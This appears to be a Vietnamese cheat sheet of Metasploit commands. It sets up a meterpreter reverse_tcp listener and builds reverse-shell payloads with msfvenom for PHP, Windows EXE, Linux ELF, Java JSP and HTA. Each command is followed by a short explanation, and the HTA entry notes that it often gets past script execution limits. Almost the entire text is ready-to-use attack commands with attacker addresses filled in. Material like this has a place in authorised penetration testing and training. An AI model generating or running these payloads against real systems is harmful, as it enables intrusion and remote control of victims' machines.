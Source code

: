 **Thiết lập Listener**

```shell
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST your-ip
set LPORT listening-port
run
```
**Lưu ý:** Đây là các lệnh trong **Metasploit Framework** để thiết lập một **listener** chung (`exploit/multi/handler`) lắng nghe các kết nối ngược lại. Bạn chọn loại **payload** mong đợi (`windows/meterpreter/reverse_tcp`), đặt địa chỉ IP (`LHOST`) và cổng (`LPORT`) mà listener sẽ lắng nghe, sau đó chạy nó (`run`).

#### Lệnh Msfvenom

**PHP:**

```bash
msfvenom -p php/meterpreter/reverse_tcp lhost =192.168.0.9 lport=1234 R
```
**Lưu ý:** Tạo **payload PHP** (**reverse shell meterpreter**). `-p` chỉ định payload. `lhost` và `lport` là địa chỉ/cổng của máy attacker lắng nghe. `R` có thể là lỗi đánh máy hoặc một cờ không chuẩn, thường không cần thiết cho payload PHP cơ bản.

**Windows:**

```bash
msfvenom -p windows/shell/reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x86.exe
```
**Lưu ý:** Tạo **payload** (**reverse shell**) cho **Windows**, định dạng **EXE** (`-f exe`). `LHOST` và `LPORT` là địa chỉ/cổng của listener. Kết quả được xuất ra tệp `shell-x86.exe`. Đây là **payload** 32-bit cơ bản.

**Linux:**

```bash
msfvenom -p linux/x86/shell/reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x86.elf
```
**Lưu ý:** Tương tự như trên, nhưng tạo **payload reverse shell** 32-bit cho **Linux** định dạng **ELF** (`-f elf`).

**Java:**

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f raw > shell.jsp
```
**Lưu ý:** Tạo **payload** (**reverse shell**) cho **Java** định dạng **JSP** (`-f raw`), thích hợp để triển khai trên các web server Java (ví dụ: Tomcat).

**HTA:**

```bash
msfvenom -p windows/shell_reverse_tcp lhost=192.168.1.3 lport=443 -f hta-psh > shell.hta
```
**Lưu ý:** Tạo **payload** (**reverse shell**) cho **Windows** dưới dạng ứng dụng **HTA** (**HTML Application**) sử dụng **PowerShell** (`-f hta-psh`). Tệp **HTA** này có thể được chạy trực tiếp trên **Windows** và thường bỏ qua một số hạn chế thực thi **script**.
